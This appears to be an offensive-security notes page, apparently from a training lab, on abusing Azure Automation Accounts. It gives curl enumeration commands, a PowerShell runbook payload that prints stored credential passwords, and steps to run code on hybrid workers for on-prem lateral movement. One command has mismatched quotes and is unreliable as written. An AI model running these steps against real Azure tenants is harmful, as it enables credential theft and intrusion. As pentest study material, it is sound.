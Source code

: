 ```yaml
---
title: Automation Accounts & Runbooks
---
```


[[notes/azure/index]] Automation Accounts allow to automate tasks for Azure resources, [[notes/azure/escalation-onprem|on-prem infrastructure]] and other cloud providers.

Common scenarios:

- deploy VMs across a hybrid environment using runbooks
- identify configuration changes
- configure VMs
- retrieve inventory

What is a Run As Account?

- provides authentication for managing Azure resources
- on creation a service principal is created and assigned the contributor role on the current subscription
- can only be used from inside a Runbook
- recommended to use managed identities instead
- can be abused with the contributor role on a Runbook

What is a Runbook?

- executed in context of the Run As Account
- contains code for automation logic
- code might contain credentials
- Runbooks can be executed in the cloud or by a Hybrid Runbook Worker, the latter allows lateral movement to on-prem
- maybe can run commands on Azure VMs using Desired State Configuration (DSC) ([source](http://web.archive.org/web/20231019211210/https://scribe.rip/@cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe))

Enumerate automation accounts.

~~~ bash
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/providers/Microsoft.Automation/automationAccounts?api-version=2021-06-22" -H 'Content-Type: application/json' -H "Authorization: Bearer $arm_token" | jq -r '.value[]'
~~~

Enumerate the role assignments on an automation account and resolve its role definitions.

~~~ bash
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Engineering/providers/Microsoft.Automation/automationAccounts/HybridAutomation/providers/Microsoft.Authorization/roleAssignments?api-version=2020-08-01-preview" -H "Authorization: Bearer $arm_token" | jq -r '.value[].properties.roleDefinitionId'
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Engineering/providers/Microsoft.Automation/automationAccounts/HybridAutomation/providers/Microsoft.Authorization/roleDefinitions/$role_def_id?api-version=2022-04-01' -H "Authorization: Bearer $arm_token" | jq -r '.properties'
~~~

# Stored Variables and Credentials

Variables and credentials can be stored in an automation account.
They can be read by executing a runbook with the following payload:

~~~ ps1
$v = Get-AutomationVariable -name myvar
$v
$c = Get-AutomationPSCredential -Name mycreds
$c.GetNetworkCredential().username
$c.GetNetworkCredential().password
~~~

# Hybrid Worker

Enumerate hybrid worker groups.

~~~ bash
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Engineering/providers/Microsoft.Automation/automationAccounts/HybridAutomation/hybridRunbookWorkerGroups?api-version=2022-08-08" -H "Authorization: Bearer $arm_token" | jq -r '.value[]'
~~~

Import a PowerShell script as Runbook.

~~~ bash
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Engineering/providers/Microsoft.Automation/automationAccounts/HybridAutomation/runbooks/student57?api-version=2022-08-08" -d '{"properties":{"runbookType":"PowerShell"},"name":"student57","location":"switzerlandnorth"}' -X PUT -H 'Content-Type: application/json' -H "Authorization: Bearer $arm_token" | jq
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Engineering/providers/Microsoft.Automation/automationAccounts/HybridAutomation/runbooks/student57/draft/content?api-version=2022-08-08" --data-binary @work.ps1 -X PUT -H "Authorization: Bearer $arm_token"
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Engineering/providers/Microsoft.Automation/automationAccounts/HybridAutomation/runbooks/student57/publish?api-version=2022-08-08" -d '' -H 'Content-Type: application/json' -H "Authorization: Bearer $arm_token"
~~~

Execute a Runbook on a worker group.

~~~ bash
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Engineering/providers/Microsoft.Automation/automationAccounts/HybridAutomation/jobs/$(uuidgen -r)?api-version=2022-08-08" -d '{"properties":{"runbook":{"name":"student57"},"parameters":{},"runOn":"Workergroup1"}}' -X PUT -H 'Content-Type: application/json' -H "Authorization: Bearer $arm_token" | jq -r .id
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Engineering/providers/Microsoft.Automation/automationAccounts/HybridAutomation/jobs/$job_id?api-version=2022-08-08" -H 'Content-Type: application/json' -H "Authorization: Bearer $arm_token" | jq -r .properties
~~~

References:

- [Azure Persistence with Desired State Configurations](http://web.archive.org/web/20230726150132/https://www.netspi.com/blog/technical/cloud-penetration-testing/azure-persistence-with-desired-state-configurations/)
- [Azure Attack Paths - Azure Automation Hybrid Runbook Worker](http://web.archive.org/web/20231028211850/https://cloudbrothers.info/azure-attack-paths/#azure-automation-hybrid-runbook-worker)
- [Azure Attack Paths - Desired State Configuration](http://web.archive.org/web/20231028211850/https://cloudbrothers.info/azure-attack-paths/#desired-state-configuration)
- [Managed Identity Attack Paths, Part 1: Automation Accounts](http://web.archive.org/web/20231028211603/https://scribe.rip/@specterops/managed-identity-attack-paths-part-1-automation-accounts-82667d17187a)
- [Azure attack paths: Common findings and fixes (part 1)](http://web.archive.org/web/20231006124147/https://blog.zsec.uk/azure-fundamentals-pt1/)
